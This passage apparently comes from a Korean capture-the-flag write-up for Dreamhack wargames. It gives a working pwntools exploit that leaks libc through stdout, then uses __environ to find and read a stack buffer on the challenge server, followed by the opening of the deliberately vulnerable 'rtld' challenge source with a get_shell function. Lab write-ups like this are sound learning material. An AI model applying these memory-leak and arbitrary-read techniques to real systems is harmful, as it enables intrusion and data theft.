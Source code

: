 ### Exploit

```python
from pwn import *

#p = process("./environ_exercise")
p = remote("host1.dreamhack.games", 13029)
#gdb.attach(p)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
print(hex(stdout))

libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]

print(hex(libc_base))

__environ = libc_base + libc.symbols["__environ"]

p.sendlineafter("> ", "1")
p.sendlineafter("Addr: ", str(__environ))
file_buf = u64(p.recvn(6).ljust(8, b"\x00")) - 0x1538

p.sendlineafter("> ", "1")
p.sendlineafter("Addr: ", str(file_buf))

p.interactive()
```

1. `stdout` leak을 이용해 libc_base를 구한다.
2. libc_base를 이용해 `__environ`의 주소를 구한다.
3. `__environ`이 가리키는 주소를 구한다. → stack의 주소를 알아낼 수 있다.
4. gdb를 이용해 stack 상에서 `file_buf`와 `__environ`이 가리키는 주소 사이의 offset을 구한다.
5. `file_buf`를 읽는다.

## Wargame: [rtld](https://dreamhack.io/wargame/challenges/35/)

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <dlfcn.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}

int main()
{
```